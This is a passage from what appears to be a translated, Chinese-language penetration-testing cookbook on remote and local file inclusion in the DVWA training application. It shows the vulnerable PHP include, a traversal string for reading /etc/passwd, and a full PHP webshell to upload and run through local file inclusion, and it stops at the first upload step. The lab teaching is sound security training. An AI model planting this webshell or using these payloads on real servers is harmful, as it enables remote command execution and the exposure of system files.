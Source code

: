 我们能够通过在参数中输入完整的 URL 来使应用程序加载外部页面。这意味着它容易受到 RFI 攻击。如果包含的文件包含可执行的服务器端代码（例如 PHP），则该代码将在服务器上执行，从而允许攻击者远程执行命令，这使得完全系统妥协的可能性非常大。

# 它是如何工作的...

如果我们在 DVWA 中使用查看源代码按钮，我们可以看到服务器端的源代码如下：

```
<?php 
$file = $_GET['page']; //The page we wish to display  
?> 
```

这意味着`page`变量的值直接传递到文件名中，然后它被包含在代码中。通过这种方式，我们可以在服务器上包含并执行任何我们想要的 PHP 或 HTML 文件，只要它可以通过网络访问。要受到 RFI 攻击，服务器必须在其配置中包含`allow_url_fopen`和`allow_url_include`。否则，如果文件包含漏洞存在，它将仅为 LFI。

# 还有更多...

我们还可以使用 LFI 来显示主机操作系统中的相关文件。例如，尝试包含`../../../../../../etc/passwd`，你将获得一个系统用户列表，包括他们的主目录和默认的 Shell。

# 滥用文件包含和上传

正如我们在前一个食谱中看到的，文件包含漏洞发生在开发人员使用验证不充分的输入生成文件路径并用这些路径包含源代码文件时。从 PHP 5.2.0 开始，现代版本的服务器端语言默认禁用了远程文件包含的能力，因此自 2011 年以来，RFI 攻击变得不太常见。

在这个食谱中，我们将首先上传一个恶意文件，即一个`webshell`（能够在服务器上执行系统命令的网页），并通过 LFI 执行它。

# 准备工作

在这个食谱中，我们将把文件上传到服务器。我们需要知道它将存储在哪里，以便通过编程访问它。为了获取上传位置，进入 DVWA 的上传页面并上传任何 JPG 图片。如果上传成功，它将显示上传的路径（`../../hackable/uploads/`）。现在我们知道了应用程序保存上传文件的相对路径；这对这个食谱来说足够了。

现在创建一个名为`webshell.php`的文件，内容如下：

```
<?
 system($_GET['cmd']);
 echo PHP_EOL . 'Type a command: <form method="GET" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd"/></form>' . PHP_EOL;
 ?>
```

请注意，`action`参数中包含了我们通过上传 JPG 文件获得的上传路径。

# 如何做到...

让我们稍微提高难度，为这个脆弱的页面添加一些保护：登录到 DVWA，进入 DVWA 安全设置，将安全级别设置为中等。现在我们可以开始测试：

1.  首先，尝试上传我们的文件。在 DVWA 中，进入上传页面并尝试上传`webshell.php`：
